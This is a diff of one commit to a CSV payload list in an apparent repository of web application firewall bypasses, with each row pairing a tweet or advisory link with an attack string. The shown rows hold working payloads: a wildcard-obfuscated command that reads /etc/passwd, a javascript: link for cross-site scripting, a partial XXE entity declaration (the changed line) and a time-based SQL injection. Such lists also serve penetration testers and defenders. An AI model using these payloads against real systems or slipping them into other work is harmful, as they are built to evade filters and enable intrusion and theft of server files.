

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -459,3 +459,3 @@ https://twitter.com/0SPwn/status/1651740036717576195,"""><a href=jav&#x0D;ascrip
 https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/p?s?w?,ptrav
-https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21; ... omitted ..",xxe
+https://twitter.com/gdprAI/status/1653160069109026816,<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21; ... omitted .., xxe
 https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU"},sqli
```
